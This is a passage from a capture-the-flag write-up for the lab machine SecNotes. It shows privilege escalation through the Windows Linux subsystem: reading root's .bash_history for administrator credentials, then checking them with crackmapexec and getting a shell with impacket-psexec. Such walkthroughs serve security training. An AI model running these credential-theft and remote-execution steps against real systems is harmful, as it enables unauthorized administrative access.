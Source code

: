 Of the shortcuts, the most interesting is **bash.lnk**, if I analyze its content with `type`, it succeeds to leak the path and the name (**bash.exe**) of the binary to which it is linked, but if I try to execute it using the absolute path it seems that the binary does not exist or is not recognized by the **CMD** shell. So I do a recursive search in the system for the binary and after waiting a while I find it in a path that would have **taken me years**, if I did a manual search. Now if I run it and despite the error messages, I succeed in migrating to a **Linux** subsystem, **how crazy**, and I'm impersonating the **root** user. If I access the HOME directory of the **root** user I find no flags but in the **.bash_history** command history I find the credentials of the **administrator** user. With `crackmapexec` I verify that the credentials are valid and with `impacket-psexec` I can access the system as the user with maximum privilege. Now I can see the content of the last flag, pwned machine!

> **Victime Machine**:

```cmd
cd \tyler\Desktop
type bash.lnk
# C:\Windows\System32\bash.exe"...

C:\Windows\System32\bash.exe"       # :(
where /R C:\ bash.exe
# C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe

C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
# mesg: ttyname failed: Inappropriate ioctl for device    :)

whoami
pwd

cd root
cat .bash_history
# smbclient -U 'administrator%u6...h' \\\\127.0.0.1\\c$
```

> **Attacker Machine**:

```bash
crackmapexec smb 10.10.10.97 -u 'Administrator' -p 'u6...nh'
impacket-psexec WORKGROUP/Administrator@10.10.10.97 cmd.exe
```

<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/secnotes_writeup/SecNotes_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
